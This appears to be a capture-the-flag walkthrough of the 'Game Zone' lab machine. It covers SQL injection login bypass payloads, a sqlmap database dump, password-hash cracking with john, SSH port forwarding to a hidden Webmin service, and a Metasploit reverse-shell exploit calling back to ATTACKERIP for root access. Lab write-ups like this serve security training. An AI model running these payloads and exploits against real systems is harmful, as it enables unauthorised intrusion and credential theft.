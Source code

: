 # Game Zone

### **Tasks**:

1. **Deploy the vulnerable machine**:
   1. Do nmap scan with `nmap -sV -T5 ip` - PORT 22,80 open
   2. Visit ip in browser , do reverse image search and submit answer - agent 47.
2. &#x20;**Obtain access via SQLi**:
   1. Use SQLi payload such as `' or 1=1 #` or `' or 1=1 -- -` in username and login.
   2. You will be redirected to portal.php
3. **Using SQLMap**:
   1. Search something in website and intercept request using burpsuite, copy the request as a text file request.txt.
   2. Run `sqlmap -r request.txt --dump` - There are 2 tables users and post, users has 1 user agent47 with hashed password stored in table.
   3. You can use [Online Hash Identifier](https://hashes.com/en/tools/hash\_identifier) or hashid to detect hash type - SHA256
   4. Use `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256` to crackk password - videogamer124
   5. ssh using `ssh agent47@10.10.71.237` and cracked password when prompted - You now have shell, cat user.txt and submit user flag.
4. **Exposing services with reverse SSH tunnels**:
   1. Run `ss -tulpn` to get running sockets, port 10000 is open but cannot be accessed from outside due to firewall.
   2. Use `ssh -L 10000:localhost:10000 agent47@ip` to explose port 10000 locally to ourself (attacker).
   3. Open http://ip:10000 in attacker browser, it's webmin login page, Login using agent47:videogamer124, Version exposed after logging in - 1.580
5. **Privilege Escalation with Metasploit**:
   1. `use exploit/unix/webapp/webmin_show_cgi_exec` , `set RHOSTS 127.0.0.1`, `set PASSWORD videogamer124`, `set payload cmd/unix/reverse`, `set LHOST ATTACKERIP`, `set LPORT 4444`,  `run`
   2. You now have root shell, type `cat /root/root.txt` to get root flag and submit.
   3. Alternative to metasploit ,search for exploits online in exploit-db , /file/show.cgi allows authenticated users to view file manager as root ,Open http://localhost:10000/file/show.cgi/root/root.txt in browser to get flag and submit.
